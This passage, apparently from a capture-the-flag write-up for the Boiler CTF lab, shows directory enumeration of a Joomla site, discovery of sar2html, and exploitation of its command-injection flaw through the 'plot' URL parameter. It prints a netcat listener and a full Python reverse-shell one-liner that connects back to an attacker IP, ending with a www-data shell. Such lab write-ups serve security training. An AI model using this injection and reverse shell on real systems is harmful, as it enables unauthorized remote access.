 ```
/cache                (Status: 301) [Size: 319] [--> http://10.10.100.67/joomla/cache/]
/cli                  (Status: 301) [Size: 317] [--> http://10.10.100.67/joomla/cli/]
/components           (Status: 301) [Size: 324] [--> http://10.10.100.67/joomla/components/]
/images               (Status: 301) [Size: 320] [--> http://10.10.100.67/joomla/images/]
/includes             (Status: 301) [Size: 322] [--> http://10.10.100.67/joomla/includes/]
/installation         (Status: 301) [Size: 326] [--> http://10.10.100.67/joomla/installation/]
/language             (Status: 301) [Size: 322] [--> http://10.10.100.67/joomla/language/]
/layouts              (Status: 301) [Size: 321] [--> http://10.10.100.67/joomla/layouts/]
/libraries            (Status: 301) [Size: 323] [--> http://10.10.100.67/joomla/libraries/]
/media                (Status: 301) [Size: 319] [--> http://10.10.100.67/joomla/media/]
/modules              (Status: 301) [Size: 321] [--> http://10.10.100.67/joomla/modules/]
/plugins              (Status: 301) [Size: 321] [--> http://10.10.100.67/joomla/plugins/]
/templates            (Status: 301) [Size: 323] [--> http://10.10.100.67/joomla/templates/]
/tests                (Status: 301) [Size: 319] [--> http://10.10.100.67/joomla/tests/]
/tmp                  (Status: 301) [Size: 317] [--> http://10.10.100.67/joomla/tmp/]
/~www                 (Status: 301) [Size: 318] [--> http://10.10.100.67/joomla/~www/]
===============================================================
2023/03/10 19:31:50 Finished
===============================================================
```

If we go take a look at `_test` directory, we can see that sar2html is installed :  
![](https://i.imgur.com/Y0c9AeN.jpg)  

## Exploiting sar2html

This web application is vulnerable to an [RCE](https://www.exploit-db.com/exploits/47204). Let's run a listener on our machine in order to get a reverse shell :  
```
attacker@AttackBox:~/Boiler_CTF$ nc -lnvp 4242
listening on [any] 4242 ...
```

Now, let's exploit the RCE by adding `?plot=;[command]` in the URL like so :  
![](https://i.imgur.com/jXWswpb.jpg)  

I used this reverse shell from [revshells.com](https://www.revshells.com/) (it needs to be URL encoded) : 
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.14.32.60",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

Now, let's take a look at our netcat listener :  
```
attacker@AttackBox:~/Boiler_CTF$ nc -lnvp 4242
listening on [any] 4242 ...
connect to [10.14.32.60] from (UNKNOWN) [10.10.100.67] 58626
www-data@Vulnerable:/var/www/html/joomla/_test$
```

We have a reverse shell !
